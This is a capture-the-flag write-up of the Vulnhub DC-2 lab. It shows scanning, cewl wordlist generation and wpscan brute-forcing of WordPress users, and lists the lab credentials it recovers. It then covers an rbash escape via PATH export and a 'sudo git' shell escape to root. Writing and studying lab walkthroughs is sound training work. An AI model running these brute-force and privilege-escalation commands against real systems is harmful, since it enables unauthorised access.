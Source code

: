 ```yaml
---
title:     "Vulnhub - DC 2"
tags: [wordpress,easy,sudo,rbash]
categories: Vulnhub
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc2/1.1.png)
Today, We are going to pwn DC 2 by DCAU7 from Vulnhub


## Description

>Much like DC-1, DC-2 is another purposely built vulnerable lab for the purpose of gaining experience in the world of penetration testing.
As with the original DC-1, it's designed with beginners in mind.
Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.
Just like with DC-1, there are five flags including the final flag.
And again, just like with DC-1, the flags are important for beginners, but not so important for those who have experience.
In short, the only flag that really counts, is the final flag.
For beginners, Google is your friend. Well, apart from all the privacy concerns etc etc.
I haven't explored all the ways to achieve root, as I scrapped the previous version I had been working on, and started completely fresh apart from the base OS install.

Download link : <https://www.vulnhub.com/entry/dc-2,311/>

Lets begin with our initial nmap scan

## Nmap Scan Results

```
PORT     STATE SERVICE
80/tcp   open  http
7744/tcp open  raqmon-pdu
MAC Address: 08:00:27:E2:25:6C (Oracle VirtualBox virtual NIC)
```

```
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Did not follow redirect to http://dc-2/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 52:51:7b:6e:70:a4:33:7a:d2:4b:e1:0b:5a:0f:9e:d7 (DSA)
|   2048 59:11:d8:af:38:51:8f:41:a7:44:b3:28:03:80:99:42 (RSA)
|   256 df:18:1d:74:26:ce:c1:4f:6f:2f:c1:26:54:31:51:91 (ECDSA)
|_  256 d9:38:5f:99:7c:0d:64:7e:1d:46:f6:e9:7c:c6:37:17 (ED25519)
MAC Address: 08:00:27:E2:25:6C (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Since there is HTTP port open, I gonna start my Gobuster

## Gobuster Results

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.0.2.4
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/11/23 12:21:05 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/server-status (Status: 403)
/wp-admin (Status: 301)
/wp-includes (Status: 301)
/wp-content (Status: 301)
/index.php (Status: 200)
===============================================================
2019/11/23 12:21:07 Finished
===============================================================
```


Its a Wordpress site 
``Flag 1``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc2/1.png)

It gives us a hint that our usual wordlist wont help us in bruteforcing the password instead cewl this page.

> cewl - custom word list generator

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc2/2.png)

I created the wordlist now

We know its a wordpress site so we can start our wpscan to enumerate users

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc2/3-0.png)

> We have 3 users - admin,tom,jerry

## Bruteforcing the users

So lets start our bruteforce using the wordlist we created from cewl.

> wpscan --url http://dc-2/ -P pass.out -U admin
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc2/3.png)

> wpscan --url http://dc-2/ -P pass.out -U tom
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc2/4.png)

> wpscan --url http://dc-2/ -P pass.out -U jerry
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc2/5.png)

## Getting Shell

I logged in with jerry
Found ``Flag 2``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc2/6.png)




There is no templates or plugins so i tried login with the creds in ssh which is running in the port 7744

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc2/7.png)

I cant login with jerry but its working with ``tom:parturient``

I found flag3 but cant view them it shows some error called ``-rbash``<br/> 
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc2/8.png)

While googling i came to know it because of problem in PATH variable.
So i copied my system PATH and export them, now its working perfectly!!

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc2/9.png)

>export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

According to ``Flag 3`` I came to know we can su , so i su to ``jerry:adipiscing``

and got ``Flag 4``

## Privilege Escalation

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc2/10.png)

This shows we can run ``git`` without root password

>https://gtfobins.github.io/gtfobins/git/

```
sudo git -p help config
!/bin/sh
```

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc2/11.png)
.<br/>
.<br/>
.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc2/12.png)

I did according to ``GTFObins``

Got ROOT and Final Flag!!!



 
